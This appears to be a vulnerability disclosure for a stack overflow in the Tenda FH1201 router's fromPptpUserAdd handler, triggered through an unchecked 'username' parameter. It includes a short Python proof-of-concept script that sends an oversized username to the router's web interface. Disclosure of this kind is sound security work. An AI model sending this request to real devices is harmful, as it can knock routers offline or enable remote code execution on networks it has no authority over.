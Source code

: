 # Tenda FH1201 fromPptpUserAdd_username
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the username parameter in the fromPptpUserAdd function.
### Vulnerability details
In function fromPptpUserAdd line 24, it reads in a user-provided parameter `username`, and the variable `Var` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/10.png)
![](images/11.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPDClient"

data = {
    "username": "a" * 4000
}

response = requests.get(url, params=data)
print(response.text)
```

![](images/12.png)
